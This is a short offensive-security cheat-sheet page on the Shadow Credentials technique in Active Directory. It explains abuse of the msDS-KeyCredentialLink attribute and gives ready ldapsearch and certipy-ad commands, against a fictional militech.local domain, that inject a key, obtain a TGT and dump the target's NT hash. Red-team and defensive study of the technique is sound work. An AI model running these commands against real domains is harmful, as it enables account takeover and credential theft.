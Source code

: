 ```yaml
---
icon: user-ninja
---
```


# Shadow Credentials

## <mark style="color:yellow;">**ABOUT**</mark>

<mark style="color:red;">**Shadow Credentials**</mark> is a <mark style="color:purple;">**stealthy post-exploitation persistence technique**</mark> (disclosed by _Elad Shamir_) that leverages the <mark style="color:green;">`msDS-KeyCredentialLink`</mark> attribute on AD objects. This attribute is used by **Windows Hello for Business** and **Azure AD Join**. When you add a **custom public key** to it, you can authenticate via **Kerberos PKINIT** using your matching private key — effectively becoming the user.

> This gives you a TGT without touching the user's password or traditional login flow.

### <mark style="color:blue;">**Requirements**</mark>

* Write access (<mark style="color:green;">`GenericWrite`</mark>/<mark style="color:green;">`GenericAll`</mark>) to target user/computer object
* **PKINIT** enabled (default in modern AD environments)
* Domain reachable over **Kerberos** (TCP/UDP 88)

### <mark style="color:blue;">**Flow**</mark>

1. Generate RSA key pair
2. Create <mark style="color:green;">`KeyCredential`</mark> object with public key
3. Inject the object into <mark style="color:green;">`msDS-KeyCredentialLink`</mark> of the target account
4. Authenticate using private key via **Kerberos PKINIT**
5. Get TGT for the target account

## <mark style="color:blue;">**LINUX**</mark>

#### **Check KeyCredential Attribute Present**

```bash
ldapsearch -H ldap://dc.militech.local -x -D 's.reed@militech.local' -w 'password123' -b 'CN=songbird,CN=Users,DC=militech,DC=local' msDS-KeyCredentialLink
```

#### **Automatic Shadow Credentials Execution**

```bash
certipy-ad shadow auto -username 's.reed@militech.local' -password 'password123' -account songbird
```

**Performs:**

* KeyCredential injection
* PKINIT auth
* TGT extraction
* NT hash dump
* Cleanup

## <mark style="color:yellow;">RESOURCES</mark>

{% embed url="https://www.thehacker.recipes/ad/movement/kerberos/shadow-credentials#shadow-credentials" %}

{% embed url="https://github.com/ly4k/Certipy/wiki/07-%E2%80%90-Post%E2%80%90Exploitation#shadow-credentials-msds-keycredentiallink" %}

{% embed url="https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab" %}
